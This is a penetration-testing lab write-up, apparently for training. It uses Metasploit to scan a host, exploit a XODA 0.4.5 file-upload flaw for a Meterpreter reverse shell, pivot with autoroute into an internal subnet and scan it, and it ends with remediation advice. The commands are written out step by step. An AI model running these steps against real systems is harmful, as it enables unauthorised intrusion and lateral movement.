# T1046: Network Service Scanning

**Classification:** Assessment Methodologies / Enumeration<br>
**Targets:** 192.195.39.3 (first target - XODA web app) and the 192.130.188.0/24 internal subnet

## 1. Executive Summary

This lab follows the MITRE ATT&CK **T1046 (Network Service Scanning)** technique. We use
Metasploit auxiliary modules to discover open ports on the first target, exploit a **XODA
0.4.5** arbitrary file-upload vulnerability to obtain a Meterpreter foothold, and then use
that foothold to pivot (`autoroute`) into a second network subnet, where we scan for
further services.



## 2. Port Scanning (First Target)

After preparing MSF Console (PostgreSQL, workspace), we search for port-scan modules and
use the TCP scanner.

```bash
search portscan
use auxiliary/scanner/portscan/tcp
show options
```





```bash
set RHOSTS 192.195.39.3
```



```bash
run
curl 192.195.39.3
```

Port 80 is open, and `curl` reveals a **XODA** web application.



## 3. Exploitation (XODA File Upload)

We search for a XODA module and find the arbitrary PHP file-upload exploit.

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
```



```bash
set RHOSTS 192.195.39.2
show options
```

The exploit uses the `php/meterpreter/reverse_tcp` payload.



```bash
set TARGETURI /
```



```bash
exploit
```

The PHP payload is uploaded and executed, opening a Meterpreter session.



## 4. Post-Exploitation

```bash
sysinfo
```

The compromised host is `demo1.ine.local` (php/linux).



We drop into a system shell as `www-data`.

```bash
shell
/bin/bash -i
export TERM=xterm
```



## 5. Discovering the Second Subnet

Checking the network interfaces reveals a second network: `eth1` on `192.130.188.2`
(192.130.188.0/24).

```bash
ifconfig
```



## 6. Pivoting

We add a route to the newly discovered subnet through the Meterpreter session and
background it, so further modules can reach the second target.

```bash
run autoroute -s 192.130.188.2
background
```



## 7. Scanning the Second Target

From here we can repeat the scanning phase against the new subnet. As an example we try a
UDP service sweep (in this case the target has no UDP services running).

```bash
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
show options
```



## 8. Remediation Recommendations

1. **Patch or replace XODA:** the 0.4.5 arbitrary file-upload flaw allows unauthenticated
   RCE; upgrade the application and validate/limit uploaded file types and locations.
2. **Run web apps with least privilege** so a `www-data` compromise cannot easily reach
   other hosts.
3. **Network segmentation:** isolate internal subnets and restrict routing between them to
   limit pivoting after a foothold.
4. **Egress filtering and monitoring:** block unexpected outbound connections (reverse
   shells) and alert on new internal routes or scanning behaviour.
